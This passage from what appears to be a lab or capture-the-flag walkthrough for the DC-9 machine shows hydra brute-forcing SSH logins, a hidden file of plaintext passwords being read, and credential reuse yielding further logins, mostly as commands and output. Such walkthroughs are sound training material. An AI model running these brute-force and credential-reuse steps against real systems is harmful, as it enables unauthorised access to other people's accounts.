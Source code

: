 Now we can lunch hydra against the SSH service, providing the two files as input. We'll need to wait for hydra to complete the attack and list valid passwords (if any are found):
```console
$ hydra -L usernames -P passwords dc9 ssh
[DATA] attacking ssh://dc9:22/
[22][ssh] host: dc9   login: chandlerb   password: UrAG0D!
[22][ssh] host: dc9   login: joeyt   password: Passw0rd
[22][ssh] host: dc9   login: janitor   password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found
...
```

Now that we have 3 valid combinations we can login and search for intresting files or directories.
I'll start with the **janitor** this time. Once logged in I I found a hidden folder containing a paswords file:
```console
$ ssh janitor@dc9
janitor@dc-9:~$ ls -la
total 16
drwx------  4 janitor janitor 4096 Jan 21 07:41 .
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 janitor janitor 4096 Jan 21 07:41 .gnupg
drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin

janitor@dc-9:~$ cd .secrets-for-putin/

janitor@dc-9:~/.secrets-for-putin$ ls -la
total 12
drwx------ 2 janitor janitor 4096 Dec 29  2019 .
drwx------ 4 janitor janitor 4096 Jan 21 07:41 ..
-rwx------ 1 janitor janitor   66 Dec 29  2019 passwords-found-on-post-it-notes.txt

janitor@dc-9:~/.secrets-for-putin$ cat passwords-found-on-post-it-notes.txt 
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

I decided to test these passwords with our existing *usernames* file retrieved from the database. The new passwords file is called *passwords_from_janitor*:

```console
$ hydra -L usernames -P passwords_from_janitor dc9 ssh 
...
[DATA] attacking ssh://dc9:22/
[22][ssh] host: dc9   login: joeyt   password: Passw0rd
[22][ssh] host: dc9   login: fredf   password: B4-Tru3-001
1 of 1 target successfully completed, 2 valid passwords found
...
```

